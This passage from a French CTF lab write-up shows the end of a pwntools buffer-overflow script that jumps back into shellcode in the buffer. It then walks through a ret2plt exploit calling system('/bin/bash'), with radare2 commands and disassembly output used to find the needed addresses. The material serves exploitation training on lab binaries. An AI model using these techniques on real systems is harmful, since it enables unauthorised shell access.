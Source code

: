 ```python
payload += (b"A"*fact)
payload += b"ZzzzZzzz"

payload += (b"A"*12)
#gdb.attach(io)
#input()
payload += p32(eax_deb_buffer) # pointe sur l'adresse du début du buffer donc du shellcode

io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```

#### Chall 6

Dans ce chall le but est de taper sur la fonction système qui est présent dans la plt qui va ensuite appeler la table GOT.

- Activer ASLR :
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

Observer dans Radare2
```bash
r2 chall_6
```

CLI
```
[0x080490a0]> iS
12  0x00001020   0x80 0x08049020   0x80 -r-x PROGBITS    .plt

[0x080490a0]> pd 20 @0x08049020

╎   ;-- system:
╎   0x08049070      ff2510c00408   jmp dword [reloc.system]    ; 0x804c010 ; "v\x90\x04\b\x86\x90\x04\b\x96\x90\x04\b"
╎   0x08049076      6820000000     push 0x20                   ; 32
└─< 0x0804907b      e9a0ffffff     jmp section..plt

[0x080490a0]> iz

0   0x00003024 0x0804c024 9   10   .data   ascii /bin/bash
```
Pour récupérer l'adresse de la plt nous utilisons la commande iS ou iS~ .plt et ensuite nous utilisons la commande pd pour print dissassembly 20 pour 20 inscruction à partir de l'emplacement ou nous somme et "@" pour préciser l'emplacement de la plt.
suite à cette commande nous obtenons l'adresse de jump de la lib systeme : '0x08049070'
Dans notre payload nous envoyons l'adresse de la lib système puis 4 de padding pour ensuite envoyer l'argument qui est un bin bash déja inclut dans le programme.

GUI
```
Window > Info > Sections 
	Voir en bas à droite adresse de .plt
		clique droit > show in > disassembly
			recup adresse de [reloc_system]

sym.vuln > strings > recup adresse de /bin/bash
```
